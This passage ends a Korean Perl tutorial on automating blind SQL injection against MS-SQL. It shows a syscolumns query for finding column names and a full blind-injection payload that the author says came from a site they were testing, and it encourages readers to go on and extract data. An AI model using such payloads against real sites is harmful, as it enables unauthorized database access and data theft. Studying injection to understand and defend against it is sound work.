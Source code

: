 지금까지의 코드라면 취약한 사이트의 데이터베이스와 테이블의 이름을 확보했습니다.
이제 컬럼명을 찾아내야 할 차례지만 이는 여러분의 몫입니다.
대신 만드는 방법을 간단히 귀띔해드리죠.

MS-SQL에서 모든 컬럼을 저장하고 있는 `syscolumns` 테이블을 이용해야 합니다.
사용자 정의 테이블의 내용만 얻어오기 위한 질의는 다음과 같습니다.

    #!sql
    select name from syscolumns where id = ( select id from sysobjects where name='table' )

이 때 `table`에는 이전에 알아낸 테이블 이름을 넣어주면 되겠죠?
현재 제가 SQL 삽입을 테스트 하던 사이트의 경우 최종적으로 만들어진 질의는 이런 느낌입니다.

    #!sql
    mana' and substring((select top 1 name from syscolumns where id=(select top 1 id
    from sysobjects where xtype='U'  and name!='zipcode'  and name!='board'
    and name!='dtproperties' )  and name!='address1'  and name!='address2'  and name!='age'
    and name!='email'  and name!='homepage'  and name!='id'  and name!='name'  an
    d name!='nickname'  and name!='user_id'  and name!='user_pw'  and name!='zipcode'
    ),1,1)='_'--

단순한 패턴이지만 참 길게 느껴지네요.
여기까지의 내용으로 데이터베이스의 구조적인 내용들을 알아냈다면, 이제는 데이터도 추출이 가능합니다.
꼭 성공(?)하시길!!


정리하며
---------

펄(Perl)의 장점인 문자열을 편하게 다룰 수 있다는 것을 보여드리고 싶었는데 잘 전달되었는지 모르겠네요.
그래도 직접 만들어 보시면 C나 JAVA와는 비교조차 할 수 없을 정도로 편하다는 것을 깨달을 수 있죠.
제가 사용한 방법이 정석은 아닙니다.
[SQL 삽입(SQL injection)][wiki-sql-injection]과 [블라인드(blind) 기법][wiki-sql-injection-blind]
및 이를 구현하는 펄 코드는 여러가지 다양한 응용 방법이 있으니
너무 기사에 보인 내용에 너무 얽매이진 말고 학문적인 내용으로만 봐주세요. :-)


[img-1]:          2015-12-17-1.png

[img-1-resize]:   2015-12-17-1_r.png

[cpan-lwp]:                 https://metacpan.org/pod/LWP
[cpan-www-mechanize]:       https://metacpan.org/pod/WWW::Mechanize
[cpan]:                     http://www.cpan.org/
[home-perlbrew]:            http://perlbrew.pl/
[twitter-vohrmana]:         http://twitter.com/#!/vohrmana
[wiki-sql-injection-blind]: https://en.wikipedia.org/wiki/SQL_injection#Blind_SQL_injection
[wiki-sql-injection]:       https://en.wikipedia.org/wiki/SQL_injection
